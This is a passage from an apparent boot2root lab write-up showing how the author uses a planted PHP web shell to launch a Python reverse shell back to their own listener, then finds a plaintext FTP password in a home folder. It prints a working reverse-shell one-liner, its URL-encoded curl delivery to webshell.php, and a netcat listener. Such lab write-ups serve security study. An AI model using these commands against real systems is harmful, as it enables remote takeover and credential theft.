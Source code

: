 This confirms that our web shell is working and executing commands as the **www-data** user.

### Setting Up a Reverse Shell

Next, we set up a listener on our host machine to catch the reverse shell:

```bash
xel@lucky7 ~/files/42/boot2root % nc -lvnp 4444
Listening on 0.0.0.0 4444
```

To establish a reverse shell on the target, we take a Python reverse shell script from the **[Reverse Shell Cheatsheet](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#python)**. 

```python
export RHOST="192.168.0.24";export RPORT=4444;python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

We encode the payload using **CyberChef** with URL encoding, resulting in the following command:

```bash
xel@lucky7 ~/files/42/boot2root % curl --insecure 'https://192.168.0.31/forum/templates_c/webshell.php?cmd=export%20RHOST%3D%22192%2E168%2E0%2E24%22%3Bexport%20RPORT%3D4444%3Bpython%20%2Dc%20%27import%20socket%2Cos%2Cpty%3Bs%3Dsocket%2Esocket%28%29%3Bs%2Econnect%28%28os%2Egetenv%28%22RHOST%22%29%2Cint%28os%2Egetenv%28%22RPORT%22%29%29%29%29%3B%5Bos%2Edup2%28s%2Efileno%28%29%2Cfd%29%20for%20fd%20in%20%280%2C1%2C2%29%5D%3Bpty%2Espawn%28%22%2Fbin%2Fsh%22%29%27'
```

Now, when the reverse shell connects, we receive a connection on our listener:

```bash
xel@lucky7 ~/files/42/boot2root % nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 192.168.0.31 50782
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$
```

We now have a reverse shell running as the **www-data** user, giving us command execution on the target system.

## 7. Exploring the Target

While exploring the `/home` directory, we notice a folder named **LOOKATME** owned by the **www-data** user. Inside this directory, we find a file named `password`.

```bash
$ cat password
lmezard:G!@M6f4Eatau{sF"
```

We attempt to use these credentials to connect via **SSH**, but they don’t work. However, when we try logging into **FTP**, it works!

